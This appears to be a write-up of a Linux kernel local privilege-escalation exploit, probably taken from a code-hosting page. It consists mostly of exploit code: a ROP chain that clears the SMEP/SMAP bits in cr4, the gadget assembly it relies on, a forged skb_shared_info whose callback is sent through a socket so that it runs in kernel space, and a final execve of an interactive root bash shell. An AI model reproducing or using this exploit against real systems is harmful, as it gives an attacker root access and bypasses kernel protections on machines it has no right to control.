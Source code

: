 ### Generating and overwriting the memory
```c
stack = (uint64_t*)((char*)stack_aligned + stack_offset);
*stack++ = (KERNEL_BASE + pop_rdi_ret_val);			
*stack++ = (uint64_t)&saved_esp;	
*stack++ = (KERNEL_BASE + mov_dword_ptr_rdi_eax_ret_val);
*stack++ = (KERNEL_BASE + mov_rax_cr4_ret_val);			
*stack++ = (KERNEL_BASE + neg_rax_ret_val);			
*stack++ = (KERNEL_BASE + pop_rcx_ret_val);			
*stack++ = SMEP_MASK;			
*stack++ = (KERNEL_BASE + or_rax_rcx_ret_val);		
*stack++ = (KERNEL_BASE + neg_rax_ret_val);;			
*stack++ = (KERNEL_BASE + xchg_eax_edi_ret_val);		
*stack++ = (KERNEL_BASE + mov_cr4_rdi_ret_val);			
*stack++ = (KERNEL_BASE + pop_rcx_ret_val);               
*stack++ = (uint64_t)&payload;        
*stack++ = (KERNEL_BASE + jmp_rcx_val);
```
where each variable corresponds to following assembly language commands:
```assembly
xchg eax, esp ; ret
pop rdi ; ret
mov dword ptr [rdi], eax ; ret
push rbp ; mov rbp, rsp ; mov rax, cr4 ; pop rbp ; ret
neg rax ; ret
pop rcx ; ret 
or rax, rcx ; ret
xchg eax, edi ; ret
push rbp ; mov rbp, rsp ; mov cr4, rdi ; pop rbp ; ret
jmp rcx
```
which basically, turns off bits in cr4 to disable the functionality of SMEP and SMAP.
### Sending the injection code via packets
```c
void init_skb_buffer(char* buffer, unsigned long func) {
	struct skb_shared_info* ssi = (struct skb_shared_info*)buffer;
	memset(ssi, 0, sizeof(*ssi));

	ssi->tx_flags = 0xff;
	ssi->destructor_arg = (uint64_t)&ui;
	ssi->nr_frags = 0;
	ssi->frag_list = 0;

	ui.callback = func;
}
```
The function creates the appropriate data struct within the buffer and includes our function in `ui.callback` part. Afterwards:
```c
int size = SHINFO_OFFSET + sizeof(struct skb_shared_info);
int rv = send(s, buffer, size, MSG_MORE);
```
We try to send that buffer via the packets, which later is executed in the kernel space itself, thus disabling the SMEP and enabling us execute priviliged commands.
And lastly, we are able to execute the shell via:
```c
void root_access_grant() {
	char* shell = "/bin/bash";
	char* args[] = {shell, "-i", NULL};
	execve(shell, args, NULL);
}
```
